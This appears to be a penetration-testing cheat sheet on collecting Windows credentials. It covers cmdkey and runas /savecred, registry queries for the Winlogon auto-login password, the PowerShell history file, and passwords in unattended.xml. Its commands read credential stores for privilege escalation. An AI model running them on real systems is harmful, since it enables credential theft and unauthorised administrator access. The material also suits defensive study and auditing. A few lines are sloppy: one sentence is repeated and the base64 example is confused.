 ## Cmdkey
**cmdkey** is a Windows command-line utility used to manage stored credentials. It can create, list, and delete credentials that are used for network authentication. Common use cases include storing credentials for RDP connections, network shares, and web services.

- `<target>`: Hostname, IP address, or domain (e.g., `192.168.1.100`, `example.com`)
- `<username>`: The username for authentication
- `<password>`: The password for the user

#### Add credentials

```powershell
cmdkey /add:<target> /user:<username> /pass:<password>
```

#### List stored credentials
```powershell
cmdkey /list
```
Although the administrator’s password is not visible in plain text using cmdkey, if stored credentials are returned, we can exploit this by running commands with the saved credentials using:
```powershell
runas.exe /savecred /user:administrator cmd
```

#### Delete credentials
```powershell
cmdkey /delete:<target>
```

#### Abusing Extracted Credentials

If a password is retrieved, an attacker can impersonate the user:

```powershell
runas /user:Administrator cmd
```

---

## Registry Credential Extraction

Windows can be configured to automatically log in a user after boot. This is commonly used in kiosk systems or enterprise environments. To achieve this, the system stores login credentials—including plaintext passwords—in the registry. If misconfigured or left exposed, attackers with local access can extract these credentials and use them for privilege escalation or lateral movement.

#### Target Registry Keys

These values reside under the following registry path:

```powershell
HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon
```

#### Registry Queries for Auto-Login Configuration
These values can be queried using the following commands:
```powershell
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v DefaultUserName
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v DefaultPassword
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v AutoAdminLogon
```
These values can be queried using the following commands:



---


## Passwords in Windows Configuration Files
#### Passwords Stored in PowerShell History
PowerShell maintains a history of previously executed commands in a plaintext file. If sensitive commands (like those using `cmdkey`, `net use`, `runas`, or scripts with passwords) were run, those credentials may remain in history.

**Location of PowerShell History File**
```powershell
C:\Users\<username>\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
```

#### Unattended.xml
The **unattended.xml** file is an automation configuration file used during Windows installations (including deployments via WDS, MDT, or other tools). It provides instructions for automating tasks like partitioning disks, creating users, and setting passwords.

**Where Passwords Appear**

Administrator account credentials or local user passwords may be included in plaintext under nodes like `<UserAccounts>` or `<AutoLogon>`.

```xml
<AutoLogon>
    <Password>
        <Value>P@ssw0rd123</Value>
    </Password>
</AutoLogon>
```

This file is commonly stored on installation media or left on systems in `C:\Windows\Panther\` or `C:\Windows\System32\Sysprep\`.

The password is stored in base64, so it would need to be decoded.

```bash
echo  "password" > <password_file>
base64 --decode <password_file> 
```


